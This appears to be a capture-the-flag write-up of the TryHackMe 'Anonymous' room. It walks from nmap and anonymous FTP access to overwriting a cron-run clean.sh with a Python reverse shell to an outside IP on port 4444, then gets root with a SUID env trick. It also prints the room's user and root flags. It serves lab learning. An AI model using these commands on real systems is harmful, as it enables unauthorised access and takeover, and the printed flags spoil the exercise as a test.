 # CTF Write-Up: Exploiting Writable FTP to Root Access (TRYHACKME ANONYMOUS)

## Target IP: 10.10.130.39
🧭 Initial Reconnaissance

Performed an Nmap scan to identify open services:

nmap 10.10.130.39 -sC -sV

Results:


![Image](https://github.com/user-attachments/assets/c8f9cae7-1813-4d6f-8857-7516f6fb3730)



  FTP (Port 21) — vsftpd 3.0.3 with anonymous login enabled

  SSH (Port 22)

  SMB (Ports 139, 445)

## Anonymous FTP login was allowed and revealed a writable directory:




![Image](https://github.com/user-attachments/assets/03ff907a-6c76-4301-840c-6789e41a1008)




ftp 10.10.130.39
Name: Anonymous
Password: (blank)

ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
ftp> ls
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000        10148 removed_files.log
-rw-r--r--    1 1000     1000           68 to_do.txt

## 🧪 Exploiting File Execution via FTP

![Image](https://github.com/user-attachments/assets/88bdc669-3d24-4264-abc8-4fbd96a3c5ea)




Upon inspecting clean.sh, it was found to be a script that presumably gets executed by the system:

cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
    echo "Running cleanup script: nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log
    done
fi

### The writable nature of the scripts directory and this script hinted that the system may be running it on a schedule (e.g., cron job). I replaced the contents of clean.sh with a Python reverse shell:


![Image](https://github.com/user-attachments/assets/06a6a48e-1b8f-42a2-88f2-3599957456c2)




python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.83.247",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

Used FTP put to upload the modified clean.sh:

put clean.sh

## Then set up a listener:

nc -lvnp 4444

## Within seconds, I received a shell.
🧍‍♂️ Privilege Escalation

## Basic recon showed a user named namelessone:

whoami
namelessone

 ## Enumerated for flags:

cat user.txt
## 90d6f992585815ff991e68748c414740

Checked sudo -l — no permissions due to unknown password. However, I attempted a privilege escalation via a known trick:( source : https://gtfobins.github.io/gtfobins/env/#suid)

/usr/bin/env /bin/sh -p

## And it worked — now I had a root shell:

whoami
# root

## Read the final flag:

cat /root/root.txt
## 4d930091c31a622a7ed10f27999af363


![Image](https://github.com/user-attachments/assets/7ae1f282-458a-40dc-b993-f6e5483ca22e)




## 🎯 Summary

## Stage	Technique
Initial Access	Writable FTP + script execution

Privilege Escalation	/usr/bin/env /bin/sh -p (SUID root shell)

User Flag	90d6f992585815ff991e68748c414740

Root Flag	4d930091c31a622a7ed10f27999af363

## Proof of completion

![Image](https://github.com/user-attachments/assets/23bfc4e2-2667-4f5e-85e6-c18383b7c862)
